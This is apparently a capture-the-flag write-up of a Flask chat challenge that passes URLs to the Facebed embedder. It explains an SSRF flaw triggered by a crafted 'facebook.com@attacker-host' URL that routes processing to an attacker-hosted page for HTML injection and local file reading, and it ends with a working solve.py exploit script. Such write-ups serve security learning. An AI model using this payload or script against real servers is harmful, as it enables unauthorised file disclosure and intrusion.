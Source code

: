 ```python

@app.route('/')
def index():
  return render_template('index.html')

@app.route('/send_message', methods=['POST'])
def send_message():
  data = request.get_json()
  headers = dict(request.headers)
  headers.pop('Host', None)  # Remove Host header to avoid issues with Facebed
  headers.pop('Content-Length', None)  # Remove Content-Length header to avoid issues with Facebed
  headers.pop('Accept-Encoding', None)  # Remove Accept-Encoding header to avoid issues with Facebed
  message = data.get('message', '')
  url_regex = r'(https?://[^\s]+)'
  html = re.sub(url_regex, lambda m: embed_url(m, headers), message)
  # Pick a random response
  bot_response = random.choice(RANDOM_RESPONSES)
  return jsonify({'html': html, 'bot': bot_response})

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=1337, debug=True)

# Thank you Copilot!
```

It send the facebook url to [facebed](https://github.com/4pii4/facebed/tree/main) for it to process, but there is an unintended bug in Facebed that enable attackers to do SSRF -> We can inject html so that Facebed can process maliciously -> Then we can read local file of the server. The vulnerable code is this:
```python
def process_post(post_path: str, text_mode: bool) -> str:
    post_path = post_path.removeprefix(WWWFB).removeprefix('/')
    parsed_post = JsonParser.process_post(post_path)
    if type(parsed_post) == ParsedPost:
        if text_mode:
            return format_text_post_embed(parsed_post)
        else:
            return format_full_post_embed(parsed_post)
    else:
        return format_error_message_embed('Cannot process post', f'{WWWFB}/{post_path}')

```

Then somehow if we can reach that function and have payload like this: `https://www.facebook.com/https://www.facebook.com@linhnph05.github.io/photo`, then the url it process is `https://www.facebook.com@linhnph05.github.io/photo`, which is the attacker website, which attacker can inject html and read server local file. TLDR here is the full exploit script, I host the `index.html` file in my github pages:

`solve.py`
```python
import requests
import re
from urllib.parse import urlparse

# url = "http://localhost:1337"
url = "http://chall.blackpinker.com:32982"

# payload = "https://www.facebook.com/hcmus.compsec.club/posts/pfbid0WKghKGdFNDWRu29JBJojCSJJNZZjzawwoxmEjh5hu8kPEU3H53brSkEgSdn6KgDil"
payload = "https://www.facebook.com/https://www.facebook.com@linhnph05.github.io/photo"

redirect = requests.post(url+"/send_message", json = {"message": payload})
print(redirect.text)
```